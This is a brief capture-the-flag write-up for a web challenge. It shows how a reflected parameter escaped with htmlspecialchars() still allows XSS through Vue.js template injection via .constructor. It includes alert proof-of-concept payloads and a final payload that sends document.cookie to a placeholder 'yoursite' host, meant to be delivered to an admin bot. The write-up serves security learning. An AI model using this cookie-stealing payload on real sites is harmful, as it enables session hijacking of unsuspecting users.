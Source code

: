 # Web - Welcome Page
* Given a link to a website, lets say `target`.
* If we look using view-source, we can find that parameter `msg` are reflected in page but server using php function [htmlspecialchars()](https://www.php.net/manual/en/function.htmlspecialchars.php) to prevent XSS.
* On Vue.js we can do XSS without using any html tag, instead we can use `.constructor`.
```
{{_Vue.h.constructor`alert(1)`()}}
{{$emit.constructor`alert(1)`()}}

- Source : 
- https://medium.com/@sid0krypt/vue-js-reflected-xss-fae04c9872d2
- https://vuejs.org/guide/components/events.html#emitting-and-listening-to-events
```
* My payload
```
http://target/?msg={{$emit.constructor`fetch('yoursite/?x='+document.cookie)`()}}
```
* Then, send to admin bot.